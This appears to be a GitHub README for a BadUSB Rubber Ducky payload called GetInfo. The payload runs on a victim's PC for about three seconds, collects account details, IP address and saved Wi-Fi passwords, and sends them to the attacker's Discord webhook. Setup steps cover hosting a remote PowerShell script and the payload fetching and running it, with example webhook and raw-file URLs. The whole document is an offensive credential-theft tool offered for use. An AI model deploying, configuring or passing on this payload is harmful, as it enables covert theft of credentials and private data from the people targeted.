# GetInfo - BadUSB Rubber Ducky Script

This BadUSB Rubber Ducky script is designed to swiftly collect information from a target's PC and transmit it to your personal Discord server. The script runs for approximately 3 seconds, gathering data such as username, computer name, disk location, account details, OS version, IP address, and previously signed-in Wi-Fi networks with passwords.

## How to Set Up


1. Duplicate this GitHub repository to host it online for accessibility.


2. Edit the code in the duplicated `getinfo.ps1` file to update the Discord webhook API credentials at line 7 and the URL to `command.txt` at line 9 with your specific information,
EXAMPLE:

`$hookUrl = "https://discord.com/api/webhooks/120056/HOw7_j7W-jMllc-uZMbCWq1DEYJUuKj"`
`$url = "https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/raw/main/command.txt"`


4. On your BadUSB Rubber Ducky device, install the script from `RemoteHack.txt`.


5. Replace `'link-to/getinfo.ps1'` in the script with the custom hosted URL of your `.ps1` file within the duplicated GitHub repository.


5.The updated RemoteHack.txt is your new payload file.
By following these steps, you can deploy and customize the GetInfo script for your specific use case. Ensure that the Discord webhook and the URL to `command.txt` in your duplicated GitHub repository are correctly configured in the `.ps1` file for the script to function as intended, securely transmitting gathered information to your Discord server.
